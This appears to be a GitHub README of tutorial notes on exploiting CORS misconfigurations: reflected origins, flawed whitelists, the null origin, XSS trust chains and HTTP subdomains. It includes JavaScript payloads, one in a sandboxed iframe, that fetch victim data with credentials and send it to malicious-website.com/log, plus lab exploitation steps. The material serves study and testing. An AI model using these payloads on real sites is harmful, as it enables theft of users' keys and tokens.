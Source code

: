 # Methods to exploit CORS.


## Server-generated ACAO header from client-specified Origin header

- Some applications need to provide access to a number of other domains. Maintaining a list of allowed domains requires ongoing effort, and any mistakes risk breaking functionality. So some applications take the easy route of effectively allowing access from any other domain.

- One way to do this is by reading the Origin header from requests and including a response header stating that the requesting origin is allowed. For example, consider an application that receives the following request:

```javascript
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=...
```
It then responds with:

```javascript
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
...
```

- These headers state that access is allowed from the requesting domain (malicious-website.com) and that the cross-domain requests can include cookies (Access-Control-Allow-Credentials: true) and so will be processed in-session.

- Because the application reflects arbitrary origins in the Access-Control-Allow-Origin header, this means that absolutely any domain can access resources from the vulnerable domain. If the response contains any sensitive information such as an API key or CSRF token, you could retrieve this by placing the following script on your website:

```javascript
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='//malicious-website.com/log?key='+this.responseText;
}; 
```

>  CORS vulnerability with basic origin reflection

1. Check if the request responses with "Access-Control-Allow-Credential" if it's true then move on to next step.
2. Send the request to the "Repeater" and add header of your exploit server "Origin: https://www.exploit.com"
3. Now craft your javascript file in the exploit server and exploit it to get user APIs key or sensotive information.


## Errors parsing Origin headers

- Some applications that support access from multiple origins do so by using a whitelist of allowed origins. When a CORS request is received, the supplied origin is compared to the whitelist. If the origin appears on the whitelist then it is reflected in the Access-Control-Allow-Origin header so that access is granted. For example, the application receives a normal request like:

```javascript
GET /data HTTP/1.1
Host: normal-website.com
...
Origin: https://innocent-website.com
```
- The application checks the supplied origin against its list of allowed origins and, if it is on the list, reflects the origin as follows:

```javascript
HTTP/1.1 200 OK
...
Access-Control-Allow-Origin: https://innocent-website.com
```

- Mistakes often arise when implementing CORS origin whitelists. Some organizations decide to allow access from all their subdomains (including future subdomains not yet in existence). And some applications allow access from various other organizations' domains including their subdomains. These rules are often implemented by matching URL prefixes or suffixes, or using regular expressions. Any mistakes in the implementation can lead to access being granted to unintended external domains.

- For example, suppose an application grants access to all domains ending in:

> normal-website.com

- An attacker might be able to gain access by registering the domain:

> hackersnormal-website.com

- Alternatively, suppose an application grants access to all domains beginning with

> normal-website.com

- An attacker might be able to gain access using the domain:

> normal-website.com.evil-user.net 


### Whitelisted null origin value

- The specification for the Origin header supports the value null. Browsers might send the value null in the Origin header in various unusual situations:

    - Cross-site redirects.
    - Requests from serialized data.
    - Request using the file: protocol.
    - Sandboxed cross-origin requests.

- Some applications might whitelist the null origin to support local development of the application. For example, suppose an application receives the following cross-domain request:

```javascript
GET /sensitive-victim-data
Host: vulnerable-website.com
Origin: null
```

- And the server responds with:

```javascript
HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```

- In this situation, an attacker can use various tricks to generate a cross-domain request containing the value null in the Origin header. This will satisfy the whitelist, leading to cross-domain access. For example, this can be done using a sandboxed iframe cross-origin request of the form:

```javascript
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='malicious-website.com/log?key='+this.responseText;
};
</script>"></iframe> 
```

### CORS vulnerability with trusted null origin
1.check for CORS By checking "Access-Control-Allow-Credential: true" if yes then,
2.Send the request to repeater and add a Header "Origin:null".
3.Craft Javascript code and send the request to the victim's server and get the sensitive information.



## Exploiting XSS via CORS trust relationships 

- Even "correctly" configured CORS establishes a trust relationship between two origins. If a website trusts an origin that is vulnerable to cross-site scripting (XSS), then an attacker could exploit the XSS to inject some JavaScript that uses CORS to retrieve sensitive information from the site that trusts the vulnerable application.

> Given the following request:

```javascript
GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: https://subdomain.vulnerable-website.com
Cookie: sessionid=...
```

> If the server responds with:

```javascript
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: true
```
- Then an attacker who finds an XSS vulnerability on subdomain.vulnerable-website.com could use that to retrieve the API key, using a URL like:

```https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script>```

## Breaking TLS with poorly configured CORS 

- Suppose an application that rigorously employs HTTPS also whitelists a trusted subdomain that is using plain HTTP. For example, when the application receives the following request:

```javascript
GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: http://trusted-subdomain.vulnerable-website.com
Cookie: sessionid=...
```

> The application responds with:

```javascript
HTTP/1.1 200 OK
Access-Control-Allow-Origin: http://trusted-subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: true
```

- In this situation, an attacker who is in a position to intercept a victim user's traffic can exploit the CORS configuration to compromise the victim's interaction with the application. This attack involves the following steps:

    - The victim user makes any plain HTTP request.
    - The attacker injects a redirection to: http://trusted-subdomain.vulnerable-website.com
    - The victim's browser follows the redirect.
    - The attacker intercepts the plain HTTP request, and returns a spoofed response containing a CORS request to: https://vulnerable-website.com
    - The victim's browser makes the CORS request, including the origin: http://trusted-subdomain.vulnerable-website.com
    - The application allows the request because this is a whitelisted origin. The requested sensitive data is returned in the response.
    - The attacker's spoofed page can read the sensitive data and transmit it to any domain under the attacker's control.

- This attack is effective even if the vulnerable website is otherwise robust in its usage of HTTPS, with no HTTP endpoint and all cookies flagged as secure.
LAB


